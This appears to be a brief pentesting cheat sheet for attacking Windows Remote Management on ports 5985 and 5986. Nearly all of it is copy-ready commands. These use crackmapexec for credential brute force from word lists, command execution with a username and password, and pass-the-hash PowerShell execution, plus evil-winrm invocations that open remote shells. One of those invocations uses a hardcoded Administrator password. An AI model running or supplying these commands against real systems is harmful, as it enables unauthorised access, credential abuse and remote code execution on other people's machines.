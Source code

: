 *Listen on one of two ports:*

- **5985/tcp (HTTP)**
- 5986/tcp (HTTPS)

### Brute force

```
crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
```

### Just check a pair of credentials
### Username + Password + CMD command execution

```
crackmapexec winrm <IP> -d <Domain Name> -u <username> -p <password> -x "whoami"
```

### Username + Hash + PS command execution
### Crackmapexec won't give you an interactive shell, but it will check if the creds are valid to access winrm

```
crackmapexec winrm <IP> -d <Domain Name> -u <username> -H <HASH> -X '$PSVersionTable'
```

```
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>
```

```
evil-winrm -i <remoteIP> -u 'username' -p 'password'
```
